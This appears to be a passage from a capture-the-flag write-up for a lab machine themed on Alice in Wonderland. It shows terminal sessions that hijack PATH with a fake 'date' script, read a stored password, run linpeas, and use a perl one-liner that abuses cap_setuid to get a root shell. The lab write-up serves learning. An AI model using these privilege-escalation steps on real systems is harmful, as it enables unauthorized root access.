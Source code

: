 ```text
rabbit@wonderland:/home/rabbit$ cd /tmp
rabbit@wonderland:/tmp$ echo "/bin/bash" > date
rabbit@wonderland:/tmp$ chmod 777 date
rabbit@wonderland:/tmp$ echo $PATH
/tmp:/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
rabbit@wonderland:/tmp$ export PATH=/tmp:$PATH
rabbit@wonderland:/tmp$ cd /home/rabbit
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ ls
teaParty
hatter@wonderland:/home/rabbit$ 
```
Running `sudo -l` on this account doesn't seem to do anything as we don't have the Hatter password.  Luckily the password is just sitting in password.txt!

```text
hatter@wonderland:/home/hatter$ cat password.txt 
WhyIsARavenLikeAWritingDesk?
```

Now we can run the command and..... Hatter has no sudo privileges.  We also have no authorization to any new or interesting files.  I guess at this time it is time to give in and run linpeass.

I scp linpeass from my machine to the hatter account and run it, an dnotice something interesting:
```text

Files with capabilities (limited to 50):
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```
perl has capabilities!  And as luck would have it, gtfobins tells us that we can indeed run the following on perl with capabilities to get root:


```shell
hatter@wonderland:/$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`
#
# whoami
root
```

We can now go back to the alice account and cat out the password thm{*root*}, but where is the user.txt?  Turns out we missed it and it was sitting in the root directory all along.  Everything really is upside down here.

thm{"*user*"}












